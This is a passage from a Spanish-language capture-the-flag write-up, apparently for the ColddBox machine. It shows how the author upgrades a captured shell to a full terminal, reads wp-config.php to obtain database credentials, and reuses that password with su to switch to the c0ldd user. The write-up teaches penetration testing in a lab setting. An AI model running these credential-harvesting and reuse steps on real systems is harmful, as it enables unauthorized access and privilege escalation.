 Por lo que sanitizaremos la shell...

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Si nos vamos a la siguiente direccion...

```shell
cd /var/www/html/
```

```shell
cat wp-config.php
```

Info:

```
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'colddbox');

/** MySQL database username */
define('DB_USER', 'c0ldd');

/** MySQL database password */
define('DB_PASSWORD', 'cybersecurity');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');
```

Vemos una contraseña por lo que probaremos esa contraseña con el usuario `c0ldd`...

```shell
su c0ldd
```
